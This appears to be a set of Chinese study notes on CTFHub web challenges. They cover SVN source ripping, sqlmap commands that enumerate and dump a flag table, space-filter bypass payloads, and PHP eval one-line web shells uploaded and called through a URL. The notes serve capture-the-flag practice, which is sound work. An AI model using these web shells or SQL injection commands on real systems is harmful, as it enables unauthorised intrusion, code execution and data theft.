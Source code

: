 					  docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-svn.pl -v    -u  http://challenge-b462cb7bd1c09880.sandbox.ctfhub.com:10800
					  ```
				-
			- [dsstore](https://github.com/gehaxelt/Python-dsstore.git) 解析Dstore文件
		- SQL注入
			- [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
			  id:: 62ab25ff-9202-4bcf-b592-72c63bc1624b
				- ~~需要安装 [visual-cpp-build-tools](https://visualstudio.microsoft.com/zh-hans/visual-cpp-build-tools/)~~
				  collapsed:: true
					- ![image.png](../assets/image_1655354940503_0.png)
				- id:: 62ab25ff-4d7f-45ea-823b-3d3e9be200af
				  ```shell
				  git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
				  ```
				- [简易教程](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)
				- [用户手册](http://drops.xmd5.com/static/drops/tips-143.html)
				- 列出表名
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1"  --tables --tamper "space2comment.py"
					  ```
				- 列出列名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
					  ```
				- 查数据
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
					  ```
				- 过滤空格
					- ` /**/、()、%0a`
					- ```sh
					  -1/**/union/**/select/**/database(),2 
					  ```
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1" --dbs --tamper "space2comment.py"
					  ```
		- 文件上传
			- 1.确定环境
			  collapsed:: true
				- ((62aae34b-60dd-4818-90e4-ae6b89c93527))
			- 2.上传对应木马
				- PHP
					- ```PHP
					  <?php eval(@$_POST['a']); ?>
					  ```
					- ```PHP
					  <?php eval(@$_GET['a']); ?>
					  ```
			- 3.访问接口
				- ```curl
				  http://challenge-15ae0dbdc51ad51b.sandbox.ctfhub.com:10800/upload/sad.php?a=phpinfo();
				  ```
		- 抓包工具
			- [[Burpsuite Pro 2022.2.2]]
			  collapsed:: true
				- [Burp Suite 使用介绍](http://drops.xmd5.com/static/drops/tools-1548.html)
		- 网站管理工具
			- [AntSword](https://github.com/AntSwordProject/AntSword-Loader)